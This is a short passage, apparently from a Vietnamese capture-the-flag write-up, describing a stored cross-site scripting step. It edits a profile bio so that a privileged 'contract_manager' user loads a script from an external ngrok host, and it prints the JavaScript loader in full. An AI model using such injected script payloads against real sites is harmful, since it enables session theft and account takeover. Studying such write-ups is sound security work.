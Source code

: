 ```js
        }
    }
}
```
    
![image](./images/image63.png)

ok ngon rồi thì mình sẽ đưa lên ngrok để fetch và chỉnh lại bio lại như sau để contract_manager vào /setting.ico và fetch
                                   
`s=document.createElement('script');s.src='https://c1aa-118-69-116-88.ngrok-free.app/';document.body.appendChild(s);`

![image](./images/image64.png)
 